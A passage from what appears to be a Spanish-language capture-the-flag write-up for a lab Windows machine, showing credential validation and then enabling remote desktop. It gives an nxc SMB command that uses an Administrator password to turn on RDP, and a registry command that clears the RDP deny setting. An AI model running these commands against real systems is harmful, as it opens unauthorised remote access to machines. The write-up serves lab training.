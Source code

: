 Validando credencial

![Untitled](/assets/img/Blue/Untitled41.png)

### Habilitar RDP - escritorio remoto

Se procede a verificar si el puerto 3389 se encuentra abierto y se comprueba que está cerrado a través de `nxc` lo habilitaremos

![Untitled](/assets/img/Blue/Untitled42.png)

```bash
nxc smb 10.10.10.40 -u 'Administrator' -p 'ejfnIWWDojfWEKM' -M rdp -o action=enable
```

Habilitar RDP desde el cmd

```bash
# Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```

![Untitled](/assets/img/Blue/Untitled43.png)

Verificando a traves de nmap

![Untitled](/assets/img/Blue/Untitled44.png)

### Conectar escritorio remoto
